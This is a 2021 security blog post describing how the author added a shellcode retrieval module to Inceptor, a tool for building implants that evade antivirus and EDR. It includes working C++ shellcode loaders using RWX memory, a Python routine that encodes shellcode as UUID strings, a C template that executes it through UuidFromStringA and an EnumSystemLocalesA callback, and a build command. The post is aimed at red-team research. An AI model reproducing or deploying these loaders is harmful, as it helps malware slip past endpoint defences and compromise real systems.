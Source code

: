 ```yaml
---
title: "Offensive Development - Implementing Shellcode Retrieval"
date: 2021-11-19 01:55:55 +0100
categories: [Offensive Development, Windows]
tags: [shellcode, embedding, retrieval]     # TAG names should always be lowercase
---
```


# Implementing Shellcode Retrieval

Recently, I developed a PoC AV/EDR Framework, called [Inceptor](https://github.com/klezVirus/inceptor.git). More information about the tool can
be found in the repository itself, and in the accompanying [blog post](../AV-Evasion-CodeExecNewDotnet/).

What is important to know, is that Inceptor is a tool which can help to automate the process of developing 
implants which can automatically bypass common AV and EDR solutions. By default, Inceptor embeds
shellcode or PE (transformed into shellcode) within wrappers (or "templates"), which are designed to
load and execute them. Templates are editable, but till now the shellcode was always embedded very crudely 
within the template, in the form of a byte array.

A very easy example is provided below:

```cpp
// Shellcode embedded in the template
const unsigned char raw[] = "####SHELLCODE####";
int length = sizeof(raw);
// Allocate RWX space for the shellcode
VOID* mem = VirtualAlloc(NULL, length, 0x00002000 | 0x00001000, PAGE_EXECUTE_READWRITE);
bool success = false;
// Copy shellcode in memory 
success = memcpy(mem, raw, length);
// Function pointer to the start of the shellcode
int (*my_main)() = (int(*)()) ((ULONGLONG)mem);
// Execution
my_main();
```

This example serves just as a PoC. As such, we are not considering issues as having a RWX region of memory, 
lack of error handling, direct use of Windows APIs (which can be hooked), etc.

The issue we are interested in, for the scope of this post, is having the shellcode embedded as a byte array. 
Indeed, having large binary blob can be suspicious if the program is statically reversed. In some cases, as
with C# payloads, this can be really easily spotted, even with strong obfuscation in place.

Moreover, as observable in other researches, like [Lazarus-Shellcode-Execution](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/) by 
NCC Group, some forms of injection may use a special format, requiring the binary blob to further transformed.

However, so far, the shellcode format couldn't really be modified at all in Inceptor, which really limited 
the possibility of having other formats or retrieval mechanisms.

## The Shellcode Retrieval Module

In Inceptor, a user could already add or extend the tool functionality by adding or modifying a template or
a module. A module can be thought as a pluggable set of functionalities which can be added to a template.
Modules themselves are based on templates, which can be adapted, changed, or added, to provide the maximum 
level of customisation.

Based on this model, I thought it could be nice and easy to implement the shellcode embedding process as
a module itself. This is how it works:

![image](imgs/blog/003AVEvasion/srm.png)

As observable from the image, the logic is pretty simple. The `IShellcodeRetrievalModule` and 
`ShellcodeRetrievalModule` abstract classes act as the main interfaces for shellcode retrieval mechanisms. 
Actually, the `ShellcodeRetrievalModule` abstract class provides a genera logic for all modules which just performs operations
on the shellcode, while the `IShellcodeRetrievalModule` abstract class provides an empty interface for all 
Shellcode retrieval mechanisms which are too specialised to be generalised.

Important to note that with this logic, at least a shellcode retrieval module needs to be loaded. If no
SRM are detected, Inceptor will indeed load the `BlobShellcodeRetrievalModule` by default.

Every SRM module, by itself, wraps a function which returns the shellcode which needs to be loaded in memory.
The function is compiled with the shellcode (or other mechanism) within a `.lib` file, along with a 
header file with the function declaration. The Library is then linked to the final payload. 
The function symbol is known at Linking time thanks to header previously generated.

## Implementing UUID Shellcode Execute

Implemented the general SRM, it is possible to implement a specific shellcode retrieval mechanism.
The first test case was indeed the UUID-ShellExecute. This kind of mechanism is ideal because it doesn't 
change the general concept of shellcode embedding (the shellcode is indeed still embedded in the payload)
but changes its format from a bytearray to a sequence of UUID strings.

As `ShellcodeRetrievalModule` already implements the logic behind the header creation and library compilation,
the only thing needed to implement is the shellcode formatting. To do that, all ShellcodeRetrievalModule 
implementations must implement the `craft()` method.

We can borrow and adapt one of the Python implementations available on internet, such as the one by [Boku7](https://github.com/boku7/Ninja_UUID_Runner/blob/main/bin2uuids.py) 
or the one by [ChoiSG](https://github.com/ChoiSG/UuidShellcodeExec/blob/main/shellcodeToUUID.py).

The final implementation of craft would be the following:
```python
def craft(self, shellcode, language) -> (str, list, str):
    Console.warn_line("[WARNING] This module is only supported by 'uuid' based templates")
    Console.warn_line("[WARNING] This module is not compatible with LD encoders")
    data = shellcode
    if isinstance(shellcode, str):
        data = unhexlify(shellcode)
    if len(data) % 16 != 0:
        padding = b"\x90" * (16 - (len(data) % 16))
        data += padding
    uuids = []
    for i in range(0, len(data), 16):
        uuid_string = str(uuid.UUID(bytes_le=data[i:i + 16]))
        uuids.append(f'"{uuid_string}"')
    self.uuids = ",\n".join(uuids)
    self.shellcode_length = len(uuids)
    if language == Language.POWERSHELL:
        raise ModuleNotCompatibleException

    if language == Language.CSHARP:
        return "string[]", [], self.uuids
    elif language == Language.CPP:
        return "char**", [], self.uuids
```

The return tuple would be the triple `(return_type, [list of arguments], formatted_shellcode)`. Each of
the unpacked values would be then used to modify a function template similar to the following:

```
####RETURN_TYPE#### myFunction(####ARGS####){
    char* uuids[] = {
        ####SHELLLCODE####
    }
    ...
}
```

Although arguments substitution is mainly still a work in progress and far from being stable, this
substitution pattern has proven to offer good customization / stability tradeoff. 

Finally, it's necessary to implement a template supporting UUID-Shellcode Execution. For this task,
we can easily borrow an existing implementation, as the C++ by [NCC Group](https://gist.github.com/rxwx/c5e0e5bba8c272eb6daa587115ae0014/)
and the C# one by [ChoiSG](https://github.com/ChoiSG/UuidShellcodeExec/blob/main/USEConsole/Program.cs), which is using D/Invoke. 

The final template would be similar to the following>

```c
#include <Windows.h>
#include <Rpc.h>
#include <iostream>
//####USING####

//####DEFINE####

#pragma comment(lib, "Rpcrt4.lib")


int main()
{

    //####DELAY####
    //####SELF_DELETE####
    //####UNHOOK####
    //####ANTIDEBUG####

    char** uuids = ####SHELLCODE####;
    int elems = ####SHELLCODE_LENGTH####;

    VOID* ha = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000, PAGE_EXECUTE_READWRITE);
    DWORD_PTR hptr = (DWORD_PTR)ha;

    for (int i = 0; i < elems; i++) {
        printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
        printf("%s\n", *(uuids+i));
        RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
        RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
        if (status != RPC_S_OK) {
            printf("[-] Something went wrong\n");
            CloseHandle(ha);
            return -1;
        }
         hptr += 16;
    }

    EnumSystemLocalesA((LOCALE_ENUMPROCA)ha, 0);
    CloseHandle(ha);
    return 0;
}
```

And finally testing it using the following command line:

```
python inceptor.py native tests\calc64.raw -o uuid-shellexec.exe -m uuid_shellcode_retrieval
```

And it worked! 

![Calc](imgs/blog/003AVEvasion/calc.png)

Of course, this is just the start of the game. Now, that is possible to implement arbitrary methods to
retrieve the shellcode, it's a matter of time to come up with new, creative ways to hide and retrieve 
our code. In another post, I'll cover how it's possible to leverage the SRM interface to load payloads 
embedded as a local resource or ICON file (technique borrowed from Sektor7). 

## References

* [RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)

